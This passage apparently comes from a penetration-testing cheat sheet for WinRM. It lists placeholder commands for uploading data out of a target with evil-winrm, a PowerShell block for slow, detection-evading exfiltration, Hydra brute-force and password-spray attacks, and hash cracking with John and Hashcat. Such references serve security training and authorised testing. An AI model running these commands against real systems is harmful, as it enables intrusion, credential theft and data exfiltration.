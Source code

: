 *   **Tool:** \[\[Evil-WinRM Cheat Sheet]]

    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> --upload <local_file> <remote_path>
    ```
* **Description:** Upload sensitive data from the target system to a remote location for exfiltration.

#### Stealthy Data Exfiltration

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Invoke-Command -ComputerName <target_ip> -UseSSL -ScriptBlock { $data = Get-Content C:\SensitiveData.txt; foreach ($char in $data) { Write-Host $char -NoNewline; Start-Sleep -Milliseconds 50 } }
    ```
* **Description:** Exfiltrates data character by character to avoid large, detectable transfers.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra <protocol>://<target_ip> -s 5986 -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra <protocol>://<target_ip> -s 5986 -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.

#### Offline Hash Cracking

*   **Tool:** \[\[John the Ripper Cheat Sheet]]

    ```bash
    john --wordlist=<path/to/wordlist> <hash_file>
    ```

\


*   **Tool:** \[\[HashCat Cheat Sheet]]

    ```bash
    hashcat -m <mode> <hash_file> <path/to/wordlist>
    ```
* **Description:** Cracks dumped password hashes to gain access.
